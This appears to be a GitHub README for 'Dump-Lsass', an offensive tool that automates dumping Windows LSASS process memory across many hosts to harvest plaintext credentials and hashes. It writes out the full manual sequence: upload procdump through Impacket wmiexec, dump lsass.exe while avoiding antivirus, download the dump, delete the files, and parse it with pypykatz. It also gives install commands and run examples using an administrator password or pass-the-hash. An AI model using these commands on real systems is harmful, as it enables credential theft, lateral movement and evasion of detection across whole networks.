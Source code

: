 # Dump-Lsass
Automates the manual process of using wmiexec and procdump to dump Lsass and plaintext creds or hashes across a large number of systems. After dumping lsass, you should have an lsass.dmp file and a plaintext file with mimikatz (pypykatz) output for each host in the same directory 

To dump lsass.exe process memory without triggering antivirus, I would normally use Impacket wmiexec.py and procdump64.exe as follows:

```
wmiexec.py domain/user@target
put procdump64.exe
procdump64.exe -accepteula -64 -ma lsass.exe lsass.dmp
get lsass.dmp
del lsass.dmp
del procdump64.exe
exit

pypykatz lsa minidump lsass.dmp
```
That's a very manual and time-consuming process when multiplied by many target hosts.

Prerequisites: Procdump64.exe must be in the same directory as the script, impacket at path /opt/impacket, smbclient, pypykatz.


To install prereqs:

Download procdump64.exe to the same directory as the script.

git clone https://github.com/SecureAuthCorp/impacket.git /opt/impacket

cd /opt/impacket && pip install -r requirements.txt && python setup.py install

apt install -y smbclient

pip3 install pypykatz

Run examples:
```
python3 dump-lsass.py -d CONTOSO -u administrator -p Passw0rd\! -f </path/to/file with target IP addresses or hostnames.txt>
python3 dump-lsass.py -d CONTOSO -u administrator -H <NT Hash> -f </path/to/file with target IP addresses or hostnames.txt>
```

If pypykatz is unable to dump creds from the dump files, your target is most likely running a recent Windows build which pypykatz and mimikatz no longer works.

